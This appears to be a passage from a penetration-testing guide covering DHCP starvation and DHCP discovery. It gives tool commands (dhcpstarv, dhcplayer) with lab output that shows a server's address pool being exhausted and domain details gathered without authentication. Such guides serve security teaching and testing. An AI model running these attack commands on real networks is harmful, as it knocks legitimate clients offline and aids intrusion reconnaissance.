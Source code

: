 
### **DHCP Starvation**

The DHCP starvation attack is a DOS attacks where a fake client requests all available IP addresses that a DHCP server offers. This way, the legitimate clients cannot obtain an IP address so must stay offline. It is possible to perform this attack by using tools like [dhcpstarv](https://github.com/sgeto/dhcpstarv), [yersinia](https://github.com/tomac/yersinia) or [dhcplayer](https://github.com/Zer1t0/dhcplayer#starvation-attack).

```bash
# DHCP starvation attack with dhcpstarv:
dhcpstarv -i enp7s0
08:03:09 11/30/20: got address 192.168.100.7 for 00:16:36:99:be:21 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.8 for 00:16:36:25:1f:1d from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.9 for 00:16:36:c7:79:f2 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.10 for 00:16:36:f4:c3:e9 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.11 for 00:16:36:dc:51:a1 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.12 for 00:16:36:c2:c2:06 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.13 for 00:16:36:15:e0:74 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.14 for 00:16:36:40:1c:02 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.15 for 00:16:36:c5:9a:c3 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.16 for 00:16:36:14:1a:b3 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.17 for 00:16:36:13:45:14 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.18 for 00:16:36:14:fb:18 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.19 for 00:16:36:b2:93:90 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.20 for 00:16:36:c7:38:f9 from 192.168.100.2
```

### **DHCP Discovery**

Also DHCP can be interesting from the client point of view, since it could allow you to get some useful information about the environment, that what it is designed for.

You can sent a DISCOVER to message to the network and check what information is retrieved. Is a way to get information from an unauthenticated position, like the domain or the servers addresses, which usually are the Domain Controllers.

```bash
# Getting information from the DHCP server:
dhcplayer discover -I eth2 -n

OFFER received from 192.168.100.2
Offered IP: 192.168.100.3
Client MAC: 52:54:00:88:80:0c
DHCP Server: 192.168.100.2
Options:
[1] Subnet Mask: 255.255.255.0
[58] Renewal Time: 345600
[59] Rebinding Time: 604800
[51] IP Address Lease Time: 691200
[54] DHCP Server ID: 192.168.100.2
[3] Router: 192.168.100.2
[5] Name Server: 192.168.100.2
[6] Domain Server: 192.168.100.2
[15] Domain Name: contoso.local
[44] NetBIOS Name Server: 192.168.100.2
[77] Unknow: [0, 14, 82, 82, 65, 83, 46, 77, 105, 99, 114, 111, 115, 111, 102, 116, 0, 0, 0, 80, 0, 68, 0, 101, 0, 102, 0, 97, 0, 117, 0, 108, 0, 116, 0, 32, 0, 82, 0, 111, 0, 117, 0, 116, 0, 105, 0, 110, 0, 103, 0, 32, 0, 97, 0, 110, 0, 100, 0, 32, 0, 82, 0, 101, 0, 109, 0, 111, 0, 116, 0, 101, 0, 32, 0, 65, 0, 99, 0, 99, 0, 101, 0, 115, 0, 115, 0, 32, 0, 67, 0, 108, 0, 97, 0, 115, 0, 115, 0, 0, 0, 74, 0, 85, 0, 115, 0, 101, 0, 114, 0, 32, 0, 99, 0, 108, 0, 97, 0, 115, 0, 115, 0, 32, 0, 102, 0, 111, 0, 114, 0, 32, 0, 114, 0, 101, 0, 109, 0, 111, 0, 116, 0, 101, 0, 32, 0, 97, 0, 99, 0, 99, 0, 101, 0, 115, 0, 115, 0, 32, 0, 99, 0, 108, 0, 105, 0, 101, 0, 110, 0, 116, 0, 115, 0, 0]
```